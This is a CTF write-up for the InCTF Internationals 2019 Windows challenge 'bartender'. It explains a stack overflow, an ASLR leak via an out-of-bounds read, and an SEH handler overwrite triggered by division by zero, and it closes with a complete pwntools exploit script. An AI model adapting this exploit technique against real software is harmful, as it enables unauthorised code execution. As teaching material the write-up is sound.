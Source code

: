 # bartender - InCTF Internationals 2019

[ slashb4sh](https://twitter.com/slashb4sh)

 2019-10-11

[ Pwn / Windows](https://blog.bi0s.in/categories/Pwn/Windows/)

 152642

------

Writeup from InCTFi 2019 bartender

tl;dr Windows 32-bit SEH exploitation



**Category:** Pwn
**Challenge Points:** 1000
**Solves:** 1

The challenge is a 32-bit windows executable. This is a simple windows exploiation challenge based on the Structured Exception Handling. Download the files [here](https://gitlab.com/maheshhari/pwn/tree/master/InCTFi2019/bartender)

# Write-up

```
PS D:\Downloads\Win_BE\bartender> .\bartender.exe
Welcome!! Hope you have a good time
What would you like
        1. Make a drink
        2. Look at menu
        3. Change a drink
        4. Serve drinks
        5. Add an Ingredient
        6. Leave bar
Enter your choice :
```

A `setting.xml` was given with the handout

```
<?xml version="1.0" encoding="UTF-8"?>
<MitigationPolicy>
  <SystemConfig>
    <SEHOP Enable="false" TelemetryOnly="false" />
  </SystemConfig>
  <AppConfig Executable="C:\Users\Public\bartender\bartender.exe">
    <SEHOP Enable="false" TelemetryOnly="false" />
  </AppConfig>
</MitigationPolicy>
```

This file was given to inform that SEHOP was disabled in remote Windows server.

This is a menu driven program, you can create a drink, modify a drink and so on. The drinks and ingredients are stored as an global array.

```
struct ingredient{
	char *name;
	DWORD key;
};

struct drink{
	char *name;
	DWORD value;
};

struct ingredient shelf[LEN];
struct drink *drinks[LEN];
```

When you make a drink, you get to add ingredients with a key that is a unique and prime number. The ingredient->key of all the ingredients you select are multiplied to from drink->value. Since the keys are prime numbers, the ingredients can be indentified by checking if the value is completely divisible by the key.

You can also see that a `catFlag` function is given to make exploitation easy.

##### Vulnerabilities

- `Stack Bufferoverflow` in the `add Ingredient` function.
- `Out of Bounds` read in `make drink` functionality.

##### Exploitaiton

First thing you would notice is the `stack bufferflow` that can be seen in the `add ingredient` option. You cannot exploit this bug by straightaway as stack cookies are enabled and also the main function doesn’t return as it is an while loop that terminates only when `exit` is called.

Also when you are overflowing, a stack buffer overrun error is returned in the `addIngredient` function call. This is because `strncpy_s` is used to copy name of the ingredient to heap.

```
errno_t strncpy_s(
   char *strDest,
   size_t numberOfElements,
   const char *strSource,
   size_t count
);
```

`strncpy_s` checks if the len of the src is greater than the count. Check out the [docs for strncpy_s](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/strncpy-s-strncpy-s-l-wcsncpy-s-wcsncpy-s-l-mbsncpy-s-mbsncpy-s-l?view=vs-2019) to know more.
To bypass this, all you have to do is put a `\x00` in your exploit, such that the the len of the src is less than count.
You are able to overwrite the SEH handler with this overflow now, but you still have to trigger an exception to redirect to execution flow to overwritten handler.

`/SAFESEH:NO` compiler flag is also enabled, you check this by looking for the `__safe_seh_table` which will not be present if safeSEH is disabled. If enabled, the last two bytes of the exception handlers in the exception chain are stored in the table, and validity is checked before a exception call.

There is a `division by zero` bug in the `change drink` functionality when you give 0 as an option when removing an ingredient. You can use this bug to trigger the overwritten exception handler.

Now all you have to do is overwrite the SEH handler with address of `catFlag`.
`ASLR` is enabled though. In Windows ASLR randomizes the image base everytime it is loaded into memory and this includes the executable image. You can use the .data section `out of bound` read vulnerability in the `make drink` functionality. The index read from the user is not validated. When you select an ingredient the key of that indredient->key([ingredient+4]) is used to form the drink->value. Provide an index such that the address+4 points to a image address. This address gets multiplied with drink->value and hence the image leak is obtained.

Finally you can overwrite the SE handler with `catFlag` and trigger the exception to get the flag.

```
from pwn import *

bin_path = "./bartender.exe"
s=process(bin_path)
#s=remote("34.207.98.167",1414)

def trigger():
    s.recvuntil("Enter your choice : ")
    s.sendline(str(3))
    s.recvuntil("Which drink do you want to change :")
    s.sendline(str(0))
    s.recvuntil("What change : ")
    s.sendline(str(2))
    s.recvuntil("Select the ingredients to remove : ")
    s.sendline(str(0))

def setup(exploit):
    s.recvuntil("Enter your choice : ")
    s.sendline(str(5))
    s.recvuntil("Enter the name of the ingredient :")
    s.send(exploit)
    s.recvuntil("Enter your choice : ")
    s.sendline(str(1))
    s.recvuntil("Enter Drink name : ")
    s.sendline("Rum N Cola ")
    s.recvuntil("Select the ingredients :")
    s.sendline(str(1))
    s.recvuntil("Select the ingredients :")
    s.sendline(str(99))

def leak_base():
    s.recvuntil("Enter your choice : ")
    s.sendline(str(1))
    s.recvuntil("Enter Drink name : ")
    s.sendline("base ")
    s.recvuntil("Select the ingredients : ")
    s.sendline(str(int("0xfffffdb5",16)))
    s.recvuntil("Current price = ")
    base = int(s.recvline())-8472
    log.info("base = " + hex(base))
    s.recvuntil("Select the ingredients :")
    s.sendline(str(99))
    return base


base=leak_base()
catFlag=base+4544
exploit = p32(0x42424242)*4 + "\x01" + "c"*0x4c + "d"*3 + p32(catFlag) + "a"*4
setup(exploit)
trigger()
s.interactive()
```
